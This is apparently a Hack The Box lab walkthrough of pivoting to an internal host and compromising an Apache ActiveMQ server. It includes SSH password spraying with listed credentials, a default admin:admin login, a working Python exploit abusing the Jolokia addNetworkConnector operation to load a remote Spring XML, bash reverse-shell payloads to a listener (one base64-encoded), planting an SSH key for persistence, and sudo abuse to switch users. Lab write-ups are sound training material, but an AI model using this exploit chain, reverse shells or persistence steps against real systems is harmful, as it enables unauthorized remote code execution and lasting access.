






Now  from the Asterisk  I was a bit lost and I lost a lot of time here without knowing what to do but I remembered that many menioned about the ADMIN01 and SYSLOG01 server and so far I was not able to discover any of them at all in the 172.16.0.0/24 subnet so I deciced to perform a ping sweep and here I discovered the new subnet where the LAPTOP01(10.0.3.0/24) resides but also a new one on (172.16.2.0/24).

```
root@laptop-01:/tmp# for i in {1..254} ;do (ping 172.16.1.$i -c 1 -w 5  >/dev/null && echo "172.16.1.$i" &) ;done
root@laptop-01:/tmp# for i in {1..254} ;do (ping 172.16.2.$i -c 1 -w 5  >/dev/null && echo "172.16.2.$i" &) ;done
172.16.2.1
172.16.2.3
172.16.2.4
root@laptop-01:/tmp# for i in {1..254} ;do (ping 172.16.3.$i -c 1 -w 5  >/dev/null && echo "172.16.3.$i" &) ;done
root@laptop-01:/tmp# 
root@laptop-01:/tmp# for i in {1..254} ;do (ping 10.0.1.$i -c 1 -w 5  >/dev/null && echo "10.0.1.$i" &) ;done
root@laptop-01:/tmp# for i in {1..254} ;do (ping 10.0.2.$i -c 1 -w 5  >/dev/null && echo "10.0.2.$i" &) ;done
root@laptop-01:/tmp# for i in {1..254} ;do (ping 10.0.3.$i -c 1 -w 5  >/dev/null && echo "10.0.3.$i" &) ;done
10.0.3.1
10.0.3.10
root@laptop-01:/tmp# for i in {1..254} ;do (ping 10.0.4.$i -c 1 -w 5  >/dev/null && echo "10.0.4.$i" &) ;done
root@laptop-01:/tmp#
```

Taking out the first IP which is the FW I will do a full check of  TCP services:

```bash
PORT      STATE SERVICE    REASON         VERSION
22/tcp    open  ssh        syn-ack ttl 64 OpenSSH 8.9p1 Ubuntu 3ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 13:df:73:68:e3:56:ba:9b:39:14:ce:f1:28:ca:0b:1a (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBMxyiY5lZxb4WBCw6eVPNd2DuaSPMkH80uGyZ2b9Sge9PwCo+I+SyRdVcByCfOLvhyKVZiAtFY3yehke3XcBtlA=
|   256 08:ed:0f:f8:2b:32:5c:48:b2:2c:f2:06:e7:1c:8b:a2 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIJrlEIGM4N7m7sHMKBpRxdZV6ktuYLNlqe2LiHgGFDa/
111/tcp   open  rpcbind    syn-ack ttl 64 2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|_  100000  3,4          111/udp6  rpcbind
1883/tcp  open  mqtt       syn-ack ttl 64
| mqtt-subscribe: 
|   Topics and their most recent payloads: 
|     ActiveMQ/Advisory/MasterBroker: 
|_    ActiveMQ/Advisory/Consumer/Topic/#: 
5672/tcp  open  amqp?      syn-ack ttl 64
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, GetRequest, HTTPOptions, RPCCheck, RTSPRequest, SSLSessionReq, TerminalServerCookie: 
|     AMQP
|     AMQP
|     amqp:decode-error
|_    7Connection from client using unsupported AMQP attempted
|_amqp-info: ERROR: AQMP:handshake expected header (1) frame, but was 65
8161/tcp  open  http       syn-ack ttl 64 Jetty 9.2.13.v20150730
|_http-title: Apache ActiveMQ
| http-methods: 
|_  Supported Methods: GET HEAD
|_http-server-header: Jetty(9.2.13.v20150730)
|_http-favicon: Unknown favicon MD5: 05664FB0C7AFCD6436179437E31F3AA6
45647/tcp open  tcpwrapped syn-ack ttl 64
61613/tcp open  stomp      syn-ack ttl 64 Apache ActiveMQ
| fingerprint-strings: 
|   HELP4STOMP: 
|     ERROR
|     content-type:text/plain
|     message:Unknown STOMP action: HELP
|     org.apache.activemq.transport.stomp.ProtocolException: Unknown STOMP action: HELP
|     org.apache.activemq.transport.stomp.ProtocolConverter.onStompCommand(ProtocolConverter.java:269)
|     org.apache.activemq.transport.stomp.StompTransportFilter.onCommand(StompTransportFilter.java:85)
|     org.apache.activemq.transport.TransportSupport.doConsume(TransportSupport.java:83)
|     org.apache.activemq.transport.tcp.TcpTransport.doRun(TcpTransport.java:233)
|     org.apache.activemq.transport.tcp.TcpTransport.run(TcpTransport.java:215)
|_    java.base/java.lang.Thread.run(Thread.java:829)
61614/tcp open  http       syn-ack ttl 64 Jetty 9.2.13.v20150730
| http-methods: 
|   Supported Methods: GET HEAD TRACE OPTIONS
|_  Potentially risky methods: TRACE
|_http-title: Error 500 
|_http-server-header: Jetty(9.2.13.v20150730)
61616/tcp open  apachemq   syn-ack ttl 64 ActiveMQ OpenWire transport 5.16.4 or later
2 services unrecognized despite returning data. If you know the service/version, please submit the following fingerprints at https://nmap.org/cgi-bin/submit.cgi?new-service :
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port5672-TCP:V=7.98%I=7%D=4/16%Time=69E09821%P=x86_64-pc-linux-gnu%r(Ge
SF:tRequest,8A,"AMQP\0\x01\0\0AMQP\0\x01\0\0\0\0\0\x1a\x02\0\0\0\0S\x10\xc
SF:0\r\x04\xa1\0\xa1\0p\xff\xff\xff\xff`\x7f\xff\0\0\0`\x02\0\0\0\0S\x18\x
SF:c0S\x01\0S\x1d\xc0M\x02\xa3\x11amqp:decode-error\xa17Connection\x20from
SF:\x20client\x20using\x20unsupported\x20AMQP\x20attempted")%r(HTTPOptions
SF:,8A,"AMQP\0\x01\0\0AMQP\0\x01\0\0\0\0\0\x1a\x02\0\0\0\0S\x10\xc0\r\x04\
SF:xa1\0\xa1\0p\xff\xff\xff\xff`\x7f\xff\0\0\0`\x02\0\0\0\0S\x18\xc0S\x01\
SF:0S\x1d\xc0M\x02\xa3\x11amqp:decode-error\xa17Connection\x20from\x20clie
SF:nt\x20using\x20unsupported\x20AMQP\x20attempted")%r(RTSPRequest,8A,"AMQ
SF:P\0\x01\0\0AMQP\0\x01\0\0\0\0\0\x1a\x02\0\0\0\0S\x10\xc0\r\x04\xa1\0\xa
SF:1\0p\xff\xff\xff\xff`\x7f\xff\0\0\0`\x02\0\0\0\0S\x18\xc0S\x01\0S\x1d\x
SF:c0M\x02\xa3\x11amqp:decode-error\xa17Connection\x20from\x20client\x20us
SF:ing\x20unsupported\x20AMQP\x20attempted")%r(RPCCheck,8A,"AMQP\0\x01\0\0
SF:AMQP\0\x01\0\0\0\0\0\x1a\x02\0\0\0\0S\x10\xc0\r\x04\xa1\0\xa1\0p\xff\xf
SF:f\xff\xff`\x7f\xff\0\0\0`\x02\0\0\0\0S\x18\xc0S\x01\0S\x1d\xc0M\x02\xa3
SF:\x11amqp:decode-error\xa17Connection\x20from\x20client\x20using\x20unsu
SF:pported\x20AMQP\x20attempted")%r(DNSVersionBindReqTCP,8A,"AMQP\0\x01\0\
SF:0AMQP\0\x01\0\0\0\0\0\x1a\x02\0\0\0\0S\x10\xc0\r\x04\xa1\0\xa1\0p\xff\x
SF:ff\xff\xff`\x7f\xff\0\0\0`\x02\0\0\0\0S\x18\xc0S\x01\0S\x1d\xc0M\x02\xa
SF:3\x11amqp:decode-error\xa17Connection\x20from\x20client\x20using\x20uns
SF:upported\x20AMQP\x20attempted")%r(DNSStatusRequestTCP,8A,"AMQP\0\x01\0\
SF:0AMQP\0\x01\0\0\0\0\0\x1a\x02\0\0\0\0S\x10\xc0\r\x04\xa1\0\xa1\0p\xff\x
SF:ff\xff\xff`\x7f\xff\0\0\0`\x02\0\0\0\0S\x18\xc0S\x01\0S\x1d\xc0M\x02\xa
SF:3\x11amqp:decode-error\xa17Connection\x20from\x20client\x20using\x20uns
SF:upported\x20AMQP\x20attempted")%r(SSLSessionReq,8A,"AMQP\0\x01\0\0AMQP\
SF:0\x01\0\0\0\0\0\x1a\x02\0\0\0\0S\x10\xc0\r\x04\xa1\0\xa1\0p\xff\xff\xff
SF:\xff`\x7f\xff\0\0\0`\x02\0\0\0\0S\x18\xc0S\x01\0S\x1d\xc0M\x02\xa3\x11a
SF:mqp:decode-error\xa17Connection\x20from\x20client\x20using\x20unsupport
SF:ed\x20AMQP\x20attempted")%r(TerminalServerCookie,8A,"AMQP\0\x01\0\0AMQP
SF:\0\x01\0\0\0\0\0\x1a\x02\0\0\0\0S\x10\xc0\r\x04\xa1\0\xa1\0p\xff\xff\xf
SF:f\xff`\x7f\xff\0\0\0`\x02\0\0\0\0S\x18\xc0S\x01\0S\x1d\xc0M\x02\xa3\x11
SF:amqp:decode-error\xa17Connection\x20from\x20client\x20using\x20unsuppor
SF:ted\x20AMQP\x20attempted");
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port61613-TCP:V=7.98%I=7%D=4/16%Time=69E09820%P=x86_64-pc-linux-gnu%r(H
SF:ELP4STOMP,289,"ERROR\ncontent-type:text/plain\nmessage:Unknown\x20STOMP
SF:\x20action:\x20HELP\n\norg\.apache\.activemq\.transport\.stomp\.Protoco
SF:lException:\x20Unknown\x20STOMP\x20action:\x20HELP\n\tat\x20org\.apache
SF:\.activemq\.transport\.stomp\.ProtocolConverter\.onStompCommand\(Protoc
SF:olConverter\.java:269\)\n\tat\x20org\.apache\.activemq\.transport\.stom
SF:p\.StompTransportFilter\.onCommand\(StompTransportFilter\.java:85\)\n\t
SF:at\x20org\.apache\.activemq\.transport\.TransportSupport\.doConsume\(Tr
SF:ansportSupport\.java:83\)\n\tat\x20org\.apache\.activemq\.transport\.tc
SF:p\.TcpTransport\.doRun\(TcpTransport\.java:233\)\n\tat\x20org\.apache\.
SF:activemq\.transport\.tcp\.TcpTransport\.run\(TcpTransport\.java:215\)\n
SF:\tat\x20java\.base/java\.lang\.Thread\.run\(Thread\.java:829\)\n\0\n");
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): IBM z/OS 1.12.X (85%)
OS CPE: cpe:/o:ibm:zos:1.12
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
Aggressive OS guesses: IBM z/OS 1.12 (85%)
No exact OS matches for host (test conditions non-ideal).
TCP/IP fingerprint:
SCAN(V=7.98%E=4%D=4/16%OT=22%CT=%CU=%PV=Y%G=N%TM=69E0983A%P=x86_64-pc-linux-gnu)
SEQ(SP=104%GCD=2%ISR=10E%TI=I%CI=I%II=RI%TS=A)
SEQ(SP=105%GCD=1%ISR=108%TI=I%CI=I%II=RI%TS=A)
OPS(O1=M5B4NNT11NW7%O2=M5B4NNT11NW7%O3=M5B4NNT11NW7%O4=M5B4NNT11NW7%O5=M5B4NNT11NW7%O6=M5B4NNT11)
WIN(W1=7200%W2=7200%W3=7200%W4=7200%W5=7200%W6=7200)
ECN(R=Y%DF=N%TG=40%W=7200%O=M5B4NW7%CC=N%Q=)
T1(R=Y%DF=N%TG=40%S=O%A=S+%F=AS%RD=0%Q=)
T2(R=Y%DF=N%TG=40%W=0%S=Z%A=S%F=AR%O=%RD=0%Q=)
T3(R=Y%DF=N%TG=40%W=7200%S=O%A=S+%F=AS%O=M5B4NNT11NW7%RD=0%Q=)
T4(R=Y%DF=N%TG=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)
T5(R=Y%DF=N%TG=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)
T6(R=Y%DF=N%TG=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)
T7(R=Y%DF=N%TG=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)
U1(R=N)
IE(R=Y%DFI=S%TG=40%CD=S)

```

# SSH

So far seems like none of my current users can login via SSH:

```bash
$ netexec ssh 172.16.2.3 -u users_linux.txt -p passwords_linux.txt --no-bruteforce --continue-on-success
SSH         172.16.2.3      22     172.16.2.3       [*] SSH-2.0-OpenSSH_8.9p1 Ubuntu-3ubuntu0.11
SSH         172.16.2.3      22     172.16.2.3       [-] api:apiSecretPw
SSH         172.16.2.3      22     172.16.2.3       [-] katja:Boneyard87!
SSH         172.16.2.3      22     172.16.2.3       [-] gizmo:JunktownKing!
SSH         172.16.2.3      22     172.16.2.3       [-] izo:NukaCola2077!
SSH         172.16.2.3      22     172.16.2.3       [-] wanderer:SynthLivesMatter
SSH         172.16.2.3      22     172.16.2.3       [-] benny:BootRiders4Life!
SSH         172.16.2.3      22     172.16.2.3       [-] ghoul:Vaultboy4Prez!
SSH         172.16.2.3      22     172.16.2.3       [-] house:Lucky38

```

# Apache ActiveQ

This server seems hosting an istance of Apache ActiveQ:  


Here I tried to pass-spray all my current passwords and users but none of them actually worked out:  


But then using the common "**admin:admin**" worked flawlesly:  


I can see that the server is running an extremely old version (5.13.0) dated 2015 which means I should be able to use [this](https://github.com/duck-sec/CVE-2023-46604-ActiveMQ-RCE-pseudoshell) to gain rce?



But the exploit is not working so instead I am thinking of [this](https://github.com/dinosn/CVE-2026-34197) one, it is fresh of a week, it might not be the indended exploit to use but it is anyway an RCE I am needing right now. Some of my tests shows that the isue is that this subnet can only talk to itself so I created the follwoing malicious code and hosted on the SYSLOG01 server:

```xml
gizmo@syslog01:/tmp$ cat evil.xml 
<?xml version="1.0" encoding="UTF-8"?>
<beans xmlns="http://www.springframework.org/schema/beans"
       xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
       xsi:schemaLocation="http://www.springframework.org/schema/beans
       http://www.springframework.org/schema/beans/spring-beans.xsd">

    <bean id="pwn" class="java.lang.ProcessBuilder" init-method="start">
        <constructor-arg>
            <list>
                <value>bash</value>
                <value>-c</value>
                <value>bash -i >& /dev/tcp/172.16.2.4/4444 0>&1</value>
            </list>
        </constructor-arg>
    </bean>
</beans>

gizmo@syslog01:/tmp$ python3 -m http.server 8080
Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...


```

In another tab(same on Syslog01) i setup a listener that will catch back a shell:

```bash
gizmo@syslog01:/tmp$ ./nc -lvnp 4444
listening on [any] 4444 ...

```

Now I can use the adapted pco(added the user auhtentication) to make the exploit to work out):

```python
import requests
import json
import time

TARGET = "http://172.16.2.3:8161"
ATTACKER = "http://172.16.2.4:8080" 
CREDS = ('admin', 'admin')

headers = {
    "Content-Type": "application/json",
    "Origin": TARGET,
    "Referer": f"{TARGET}/admin/"
}

# 1. Cleanup
print("[*] 尝试清理残留的NC连接器...")
connectors_to_clean = ["NC", "evil", "pwn"]
for nc in connectors_to_clean:
    payload_clean = {
        "type": "exec",
        "mbean": "org.apache.activemq:type=Broker,brokerName=localhost",
        "operation": "removeNetworkConnector(java.lang.String)",
        "arguments": [nc]
    }
    try:
        requests.post(f"{TARGET}/api/jolokia", json=payload_clean, auth=CREDS, headers=headers, timeout=5)
    except Exception:
        pass

time.sleep(1)

# 2. Exploit
print("[*] 正在发送Payload")
unique_id = int(time.time())
evil_uri = f"static:(vm://pwnbroker{unique_id}?brokerConfig=xbean:{ATTACKER}/evil.xml)"

payload_add = {
    "type": "exec",
    "mbean": "org.apache.activemq:type=Broker,brokerName=localhost",
    "operation": "addNetworkConnector(java.lang.String)",
    "arguments": [evil_uri]
}

try:
    resp_add = requests.post(f"{TARGET}/api/jolokia", json=payload_add, auth=CREDS, headers=headers, timeout=15)
    print(f"[*] 执行结果: {resp_add.status_code}")
    
    try:
        print(json.dumps(resp_add.json(), indent=2))
    except Exception:
        print(f"[*] 无法解析JSON响应。原始响应内容:\n{resp_add.text}")

except Exception as e:
    print(f"[-] 请求发生异常: {e}")

print("[+] Payload 发送完毕")

```

but it was not working so I started easy with this payload:

```xml
gizmo@syslog01:/tmp$ cat evil.xml 
<?xml version="1.0" encoding="UTF-8"?>
<beans xmlns="http://www.springframework.org/schema/beans"
       xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
       xsi:schemaLocation="http://www.springframework.org/schema/beans
       http://www.springframework.org/schema/beans/spring-beans.xsd">

    <bean id="pwn" class="java.lang.ProcessBuilder" init-method="start">
        <constructor-arg>
            <list>
                <value>bash</value>
                <value>-c</value>
        <value>wget http://172.16.2.4:8080/FIGA</value>
            </list>
        </constructor-arg>
    </bean>
</beans>


```

And I see a callback:  


Now I need to understand how I can use that to make a complex call

&nbsp;

Now I will test to use the base64 encoding instead:

```bash
<?xml version="1.0" encoding="UTF-8"?>
<beans xmlns="http://www.springframework.org/schema/beans"
       xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
       xsi:schemaLocation="http://www.springframework.org/schema/beans
       http://www.springframework.org/schema/beans/spring-beans.xsd">

    <bean id="pwn" class="java.lang.ProcessBuilder" init-method="start">
        <constructor-arg>
            <list>
                <value>bash</value>
                <value>-c</value>
        <value>echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xNzIuMTYuMi40LzQ0NDQgMD4mMQ==|base64 -d|bash</value>
            </list>
        </constructor-arg>
    </bean>
</beans>

```

And I see a shell baby:

```bash
syslog01:/tmp$ ./nc -lvnp 4444
listening on [any] 4444 ...
connect to [172.16.2.4] from (UNKNOWN) [172.16.2.3] 41990
bash: cannot set terminal process group (867): Inappropriate ioctl for device
bash: no job control in this shell
activemq@admin01:/$ 


```

And now I can see another flag baby:

```bash
activemq@admin01:~$ ls -al
ls -al
total 12
drwxr-xr-x 2 activemq activemq 4096 Jun 10  2025 .
drwxr-xr-x 5 root     root     4096 Mar  8  2025 ..
lrwxrwxrwx 1 root     root        9 Jun 10  2025 .bash_history -> /dev/null
-r--r----- 1 activemq root       37 Mar  8  2025 flag.txt
activemq@admin01:~$ cat flag.txt
cat flag.txt
HTB{6bcca4fe671a6ba0caba9725fa7f5142}
```

But wait it wasn't the previous flag?  


But I will inject my ssh key so I can login without the need of a ssh:

```bash
mkdir -p ~/.ssh && chmod 700 ~/.ssh && echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAACAQDC56T+CJsldompfPq4RnGd94aC5/SDk0Oi16blt+zPzMGJpJSlKXNHc9AJGl8qagziNY8C+Y8tYnUF2YNaxsiSVSizD07tvGkgxapqRJ0x9mVVikdQJdfE9CAQCcE1RaJ7KtMsvAdc5eqRTsmX5EXicaEIAQmJ0pbiOVfe5uIGHQd7BRdT5GpHa9VQthR+EAavZhht28S4anOtsN5J27rmRDO51qiGAD6jyv1h/0lmp6Ql2QbDf6gFaUONg4nEEYy7HFTM1+fMtcNEIJe2ClOyYCAzsX8V9HzyVJQG/hqkaYYY80/FoPDeBi5Eso8Z4AISEUxNlPvaOSIxiPuZ2sQbrqPuN+gHgquKip37jxPE2HDfSmU2uMWQ8ue6Xj+Dk6ZaeabpmggO5PKfXkuAZkIXmyZm8GluMwahvCIsVJKy2+H87wLu+RCOGA3sPKN0OyXolFMSKaXaYea67445G7nzCpY2bn6vAKsjQALu5hUkh7UNxdBAO7n0b+lakHmvm25kzQ7QJe55OkWD16DHaH46uadn46OBMbHeaaukzgF/EYK8S4ji2ab8N3z4B7uD4o9XaFaYtpnzvv/5/7SwtEDSZD6Z7IHIUeYJSOOPuu1H6tys7ZAEj+wuRAJ0/BhvD+UEq/VKlWFAhKAfeOffa3KExWlbpKphVPbubzQjODLEvQ== user@kali-almi" >> ~/.ssh/authorized_keys && chmod 600 ~/.ssh/authorized_keys
```

Here it is funny because seems like the House and Gizmo users do not share the same credentails as the one i already have:

```bash
-bash: ll: command not found
activemq@admin01:/home$ ls -al
total 20
drwxr-xr-x  5 root     root     4096 Mar  8  2025 .
drwxr-xr-x 18 root     root     4096 Mar 17  2025 ..
drwxr-xr-x  4 activemq activemq 4096 Apr 16 11:58 activemq
drwxr-x---  2 gizmo    gizmo    4096 Mar 19  2025 gizmo
drwxr-x---  4 house    house    4096 Mar 19  2025 house
activemq@admin01:/home$ 


```

But I see immediately that my current user is sudo?

```bash
═══════╣ Checking 'sudo -l', /etc/sudoers, and /etc/sudoers.d
╚ https://book.hacktricks.wiki/en/linux-hardening/privilege-escalation/index.html#sudo-and-suid
Matching Defaults entries for activemq on admin01:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User activemq may run the following commands on admin01:
    (ALL, !root) NOPASSWD: ALL

```

Here I had to ask AI but apparently I can run all the command as any user except root! And gizmo can't jackshit:

```bash
activemq@admin01:/tmp$ sudo -u gizmo /bin/bash
gizmo@admin01:/tmp$ ls
hsperfdata_activemq  nfs          systemd-private-eadd7d769753483ebd087ee635419707-systemd-logind.service-gcLYbv    systemd-private-eadd7d769753483ebd087ee635419707-systemd-timesyncd.service-8WRVSj
linpeas.sh           remote_logs  systemd-private-eadd7d769753483ebd087ee635419707-systemd-resolved.service-Pzep0o  vmware-root_748-2966037996
gizmo@admin01:/tmp$ id
uid=1002(gizmo) gid=1002(gizmo) groups=1002(gizmo)
gizmo@admin01:/tmp$ cd /home/gizmo/
gizmo@admin01:~$ ll
total 20
drwxr-x--- 2 gizmo gizmo 4096 Mar 19  2025 ./
drwxr-xr-x 5 root  root  4096 Mar  8  2025 ../
lrwxrwxrwx 1 root  root     9 Mar 19  2025 .bash_history -> /dev/null
-rw-r--r-- 1 gizmo gizmo  220 Jan  6  2022 .bash_logout
-rw-r--r-- 1 gizmo gizmo 3771 Jan  6  2022 .bashrc
lrwxrwxrwx 1 root  root     9 Mar 19  2025 .mysql_history -> /dev/null
-rw-r--r-- 1 gizmo gizmo  807 Jan  6  2022 .profile
gizmo@admin01:~$ 


```

But under house I can see more!

```bash
house@admin01:~$ ll -al
total 32
drwxr-x--- 4 house house 4096 Mar 19  2025 ./
drwxr-xr-x 5 root  root  4096 Mar  8  2025 ../
lrwxrwxrwx 1 root  root     9 Mar 19  2025 .bash_history -> /dev/null
-rw-r--r-- 1 house house  220 Jan  6  2022 .bash_logout
-rw-r--r-- 1 house house 3771 Jan  6  2022 .bashrc
drwx------ 2 house house 4096 Mar 19  2025 .cache/
lrwxrwxrwx 1 root  root     9 Mar 19  2025 .mysql_history -> /dev/null
-rw-r--r-- 1 house house  807 Jan  6  2022 .profile
drwx------ 2 house house 4096 Apr 16 02:15 .ssh/
-rw-r--r-- 1 root  root    38 Mar 18  2025 flag.txt
house@admin01:~$ 

house@admin01:~$ cat flag.txt 
HTB{96b6dc39e89c080193c883b2efb5a029}

```

And this one has more keys?

```bash
house@admin01:~/.ssh$ cat known_hosts
|1|2KTbdeqlxMIroj0ptnTj0amZz0U=|sdE7jRwIGFVT9rAVurDhSEiB3l0= ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAILk5s0dksKTvOZNqHLjGYQGoMKG557DlKZPfv1jcZGoa
172.16.0.100 ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQC3f4SfPgr9nCny1UPm8zRHrMhxPGKteLtCPvTKkNdkTjTUWXOIEJTM5BGaLfzmRbpbOeeceqXLxFuzA2MMw1tcpQiEbLXHFsJBiONv2Awt3GrYoJPfFdVN8IQAx9nC57sz7DcRk0n+wLjZRsnej1JhIlru7M1XV3eLwCY8chkoxfjS11FsbCWh3jO1qkIqh02M8F4fofdSw+ZRlpqoyI+ZVA9Pce7yqJUftJ8AMtj+BiXbRPdy4XOh2i1DI2v11ieeZS48ZSxSS1j2HAZS80WpxlVORJkrFn3Rb/td06of05raVTdoVzqsMN6EP43U/XIj9er+hEEi1co/UqUVJUum44Bk/sdCITzHD2wWwMnOOTGArs5CYPyZp39FC6GS1qjhWQdIdFO6TyrLRkFwmO6G/AiintmRXPlGNqAw+utF+gAQTL612mpVt+pzFgHkY0IIuVyUStUjuKu40XIU2Zhf6+481mngqalx99QeFugkfO/AFf5N6DymqOEsnuH9tvk=
172.16.0.100 ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBLMNvF7Jf2lWFZSmRf5+xblZUcuxitJelSWrhIAnCewL8XwV4uQnMm4W0gvvjTOMccSqDPZrd6E9AcfQqnC9F9o=
house@admin01:~/.ssh$ cat known_host.old
cat: known_host.old: No such file or directory
house@admin01:~/.ssh$ cat known_hosts
known_hosts      known_hosts.old  
house@admin01:~/.ssh$ cat known_hosts.old 
|1|2KTbdeqlxMIroj0ptnTj0amZz0U=|sdE7jRwIGFVT9rAVurDhSEiB3l0= ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAILk5s0dksKTvOZNqHLjGYQGoMKG557DlKZPfv1jcZGoa
house@admin01:~/.ssh$ 


```

From this hosts file I can see that the connection has made to gitlab? But except this I dont's see other stuff this user can do so back on the user list I see that I might be able to impersonate syslog?

```bash
╔══════════╣ All users & groups
uid=0(root) gid=0(root) groups=0(root)
uid=1(daemon[0m) gid=1(daemon[0m) groups=1(daemon[0m)
uid=10(uucp) gid=10(uucp) groups=10(uucp)
uid=100(_apt) gid=65534(nogroup) groups=65534(nogroup)
uid=1001(activemq) gid=1001(activemq) groups=1001(activemq)
uid=1002(gizmo) gid=1002(gizmo) groups=1002(gizmo)
uid=1003(house) gid=1003(house) groups=1003(house)
uid=101(systemd-network) gid=102(systemd-network) groups=102(systemd-network)
uid=102(systemd-resolve) gid=103(systemd-resolve) groups=103(systemd-resolve)
uid=103(messagebus) gid=104(messagebus) groups=104(messagebus)
uid=104(systemd-timesync) gid=105(systemd-timesync) groups=105(systemd-timesync)
uid=105(pollinate) gid=1(daemon[0m) groups=1(daemon[0m)
uid=106(sshd) gid=65534(nogroup) groups=65534(nogroup)
uid=107(usbmux) gid=46(plugdev) groups=46(plugdev)
uid=108(_rpc) gid=65534(nogroup) groups=65534(nogroup)
uid=109(statd) gid=65534(nogroup) groups=65534(nogroup)
uid=110(syslog) gid=112(syslog) groups=112(syslog),4(adm)
uid=13(proxy) gid=13(proxy) groups=13(proxy)
uid=2(bin) gid=2(bin) groups=2(bin)
uid=3(sys) gid=3(sys) groups=3(sys)
uid=33(www-data) gid=33(www-data) groups=33(www-data)
uid=34(backup) gid=34(backup) groups=34(backup)
uid=38(list) gid=38(list) groups=38(list)
uid=39(irc) gid=39(irc) groups=39(irc)
uid=4(sync) gid=65534(nogroup) groups=65534(nogroup)
uid=41(gnats) gid=41(gnats) groups=41(gnats)
uid=5(games) gid=60(games) groups=60(games)
uid=6(man) gid=12(man) groups=12(man)
uid=65534(nobody) gid=65534(nogroup) groups=65534(nogroup)
uid=7(lp) gid=7(lp) groups=7(lp)
uid=8(mail) gid=8(mail) groups=8(mail)
uid=9(news) gid=9(news) groups=9(news)
uid=999(laurel) gid=999(laurel) groups=999(laurel)

```

From the logs i see that root was executed from the machine .22?

```bash
var/log/auth.log:Apr 16 08:19:41 admin01 sshd[13550]: Failed password for house from 172.16.0.6 port 47494 ssh2
/var/log/auth.log:Apr 16 08:41:19 admin01 sshd[13560]: Accepted password for house from 172.16.0.22 port 34090 ssh2
